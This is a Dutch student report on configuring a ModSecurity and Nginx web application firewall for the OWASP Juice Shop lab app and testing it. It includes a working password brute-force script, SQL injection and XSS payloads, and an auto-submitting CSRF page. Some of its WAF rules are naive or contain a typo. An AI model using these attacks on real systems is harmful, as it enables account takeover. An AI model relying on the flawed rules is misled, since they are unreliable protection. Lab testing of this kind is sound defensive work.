





#### TEAM COOKERS: Antoon Vereecken, Wesley Van Hoof, Monowal Shrestha, Stanley Okomhen

### Verslag 1: Opzetten van een Web Application Firewall (WAF) met ModSecurity en Nginx

#### Inleiding
Een Web Application Firewall (WAF) beschermt webapplicaties door HTTP-verzoeken te monitoren en te filteren. In deze setup gebruiken we ModSecurity als WAF in combinatie met Nginx als reverse proxy. Dit verslag beschrijft de configuratie en implementatie van deze setup.

#### Benodigde Componenten
- **Nginx**: Fungeert als reverse proxy server.
- **ModSecurity**: Een open-source WAF die HTTP-verkeer inspecteert en filtert.
- **OWASP Core Rule Set (CRS)**: Een set van regels die veelvoorkomende aanvallen detecteren en blokkeren.

#### Configuratieoverzicht

1. **Docker Compose Setup**:
   - De `docker-compose.yml` file definieert de services en netwerken. De `reverseproxy` service gebruikt het `owasp/modsecurity-crs:nginx-alpine` image om Nginx en ModSecurity te draaien.
   - Volumes worden gemount voor configuratiebestanden en logbestanden.

   **Voeg networks toe in docker**
   ```
   docker network create backend
   docker network create reverse-proxy
   ```

2. **Nginx Configuratie**:
   - De `default.conf` file configureert de Nginx server om te luisteren op poort 80 en definieert proxy-instellingen voor de `juice-shop` applicatie.
   - Beveiligingsheaders worden toegevoegd om de beveiliging van de applicatie te verbeteren.

3. **ModSecurity Configuratie**:
   - De `modsec-override.conf` file overschrijft de standaard ModSecurity instellingen. Het specificeert de locaties voor audit- en debuglogs en stelt het logformaat in op JSON.

#### Logbestanden
- **Audit Log**: Bevat gedetailleerde informatie over HTTP-verzoeken die door ModSecurity zijn verwerkt.
- **Debug Log**: Helpt bij het oplossen van problemen door gedetailleerde foutopsporingsinformatie te bieden.

#### Veelvoorkomende Problemen en Oplossingen
- **403 Fouten**: Deze worden vaak veroorzaakt door regels in de OWASP CRS die legitieme verzoeken blokkeren. Het is belangrijk om de regels te evalueren en aan te passen aan de specifieke behoeften van de applicatie.
- **Timeouts en Verbinding geweigerd**: Deze kunnen optreden als de upstream server niet bereikbaar is of als er netwerkproblemen zijn. Controleer de verbindingen en zorg ervoor dat de `juice-shop` service correct draait.

#### Conclusie
Het opzetten van een WAF met ModSecurity en Nginx biedt een robuuste beveiligingslaag voor webapplicaties. Door gebruik te maken van de OWASP CRS kunnen veelvoorkomende aanvallen effectief worden gedetecteerd en geblokkeerd. Het is echter cruciaal om de configuratie regelmatig te evalueren en aan te passen aan veranderende bedreigingen en applicatiebehoeften.


--------------------------------

### Verslag 2: Testen van de WAF

# 1. Brute Force aanval;
  ### De input die je gebruikt om de WAF-regel te testen;

  ```bash
    #!/bin/bash

    # Path to the wordlist
    WORDLIST="/usr/share/wordlists/rockyou.txt"

    # Target URL and email
    URL="http://10.2.0.145/rest/user/login"
    EMAIL="a@a.a"

    # Loop through each password in the wordlist
    while IFS= read -r PASSWORD; do
        echo "Trying password: $PASSWORD"
        
        # Send the curl request
        RESPONSE=$(curl -s -X POST "$URL" \
            -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' \
            -H 'Accept: application/json, text/plain, */*' \
            -H 'Accept-Language: en-US,en;q=0.5' \
            -H 'Accept-Encoding: gzip, deflate' \
            -H 'Referer: http://10.2.0.145/' \
            -H 'Content-Type: application/json' \
            -H 'Origin: http://10.2.0.145' \
            -H 'Connection: keep-alive' \
            -H 'Cookie: language=en; welcomebanner_status=dismiss' \
            -H 'Priority: u=0' \
            --data-raw "{\"email\":\"$EMAIL\",\"password\":\"$PASSWORD\"}")

        # Check the response for success (adjust the condition based on the application's behavior)
        if [[ "$RESPONSE" != *"Invalid email or password"* ]]; then
            echo "Success! Password found: $PASSWORD"
            echo "Response: $RESPONSE"
            break
        fi
    done < "$WORDLIST"
  ```

  ### De WAF-regel die de aanval zou moeten blokkeren;

  ```bash
    SecRule IP:BLOCKED "@eq 1" "id:1005,phase:1,de ny,status:403,msg:'Repeat offender blocked'"
    SecAction "id:1006,phase:5,deprecatevar:ip.blocked=1"
  ```

  ### Een log entry (of een screenshot hiervan) van de WAF waaruit duidelijk blijkt dat er een aanval werd tegengehouden;

  

  ### Een uitleg waarom de WAF-regel al dan niet werkt;

  Hoewel we wanneer we het wachtwoord raden dat in ook in 'rockyou' staat, we Forbidden terugkrijgen, hebben we vrij weinig vertrouwen dat deze regel werkt.


# 2. SQL injection;
  ### De input die je gebruikt om de WAF-regel te testen;

  ```sql
    ' OR 'a'='a
  ```

  ### De WAF-regel die de aanval zou moeten blokkeren;

  ```bash
    SecRule ARGS "@contains sql" "id:1002,phase:2,deny,status:403,msg:'SQL injection blocked'"
  ```

  ### Een log entry (of een screenshot hiervan) van de WAF waaruit duidelijk blijkt dat er een aanval werd tegengehouden;

  

  ### Een uitleg waarom de WAF-regel al dan niet werkt;

  We hebben geprobeerd om een SQL aanval manueel uit te voeren. De SQL injection wordt geblokkeerd.


# 3. Cross site scripting;
  
  ### De input die je gebruikt om de WAF-regel te testen;

  ```javascript
    <script>alert('XSS attack')</script>
  ```

  ### De WAF-regel die de aanval zou moeten blokkeren;

  ```bash
    SecRule ARGS "@contains script" "id:1001,phase:2,deny,status:403,msg:'XSS attack blocked'"
  ```

  ### Een log entry (of een screenshot hiervan) van de WAF waaruit duidelijk blijkt dat er een aanval werd tegengehouden;

  

  ### Een uitleg waarom de WAF-regel al dan niet werkt;

  We hebben een XSS aanval geprobeerd uit te voeren. Deze wordt geblokkeerd.

# 4. CSRF aanval;
  ### De input die je gebruikt om de WAF-regel te testen;

  ```html
  <html>
    <body>
      <h1>🎉 Win een gratis Juice Shop waardebon! 🎉</h1>

      <form
        id="csrf-form"
        action="http://localhost:80/#/privacy-security/change-password"
        method="POST"
      >
        <input type="hidden" name="new" value="gehackt123" />
        <input type="hidden" name="repeat" value="gehackt123" />
        <input type="hidden" name="current" value="" />
      </form>

      <script>
        window.onload = function () {
          // Methode 1: Form submit
          document.getElementById("csrf-form").submit();

          // Methode 2: Fetch API
          fetch("http://localhost:80/#/privacy-security/change-password", {
            method: "POST",
            headers: {
              "Content-Type": "application/json",
            },
            body: JSON.stringify({
              new: "gehackt123",
              repeat: "gehackt123",
              current: "",
            }),
            credentials: "include",
          });
        };
      </script>
    </body>
  </html>
  ```

  ### De WAF-regel die de aanval zou moeten blokkeren;

  ```bash
    SecRule REQUEST_METHOD "POST" "id:2001,phase:2,chain,deny,status:403,msg:'CSRF token missing or invalid'"
    SecRule ARGS_NAMES "!@contains csrf_token"
  ```
   
  ### Een log entry (of een screenshot hiervan) van de WAF waaruit duidelijd blijkt dat er een aanval werd tegengehouden;

  

  ### Een uitleg waarom de WAF-regel al dan niet werkt;

  Het wachtwoord dat we probeerden te wijzigen was "gehackt123" en deze wordt geblokkeerd.

# 5. GeoIP blocking (buiten België)
  ### De input die je gebruikt om de WAF-regel te testen;

  ```bash (van buiten België)
    curl -v http://example.com
  ```

  ### De WAF-regel die de aanval zou moeten blokkeren;

  ```bash
    SecRule GEO:COUNTRY_CODE "!@streq BE" "id:1004,phase:1,deny,status:403,msg:'Non-BE IP blocked'"
  ```

  ### Een log entry (of een screenshot hiervan) van de WAF waaruit duidelijk blijkt dat er een aanval werd tegengehouden;

  

  ### Een uitleg waarom de WAF-regel al dan niet werkt;

  We hebben een VPS in Brazilie gebruikt dus de request werd geblokkeerd.

# 6. Blokkeren van ‘repeat offenders’
  ### De input die je gebruikt om de WAF-regel te testen;

  Zie [Brute Force](#1-brute-force)
  
  ### De WAF-regel die de aanval zou moeten blokkeren;

  ```bash
    SecRule IP:BLOCKED "@eq 1" "id:1005,phase:1,deny,status:403,msg:'Repeat offender blocked'"
    SecAction "id:1006,phase:5,deprecatevar:ip.blocked=1"
  ```

  ### Een log entry (of een screenshot hiervan) van de WAF waaruit duidelijk blijkt dat er een aanval werd tegengehouden;

  Zie [Brute Force](#1-brute-force)

  ### Een uitleg waarom de WAF-regel al dan niet werkt;
  
  Zie [Brute Force](#1-brute-force)
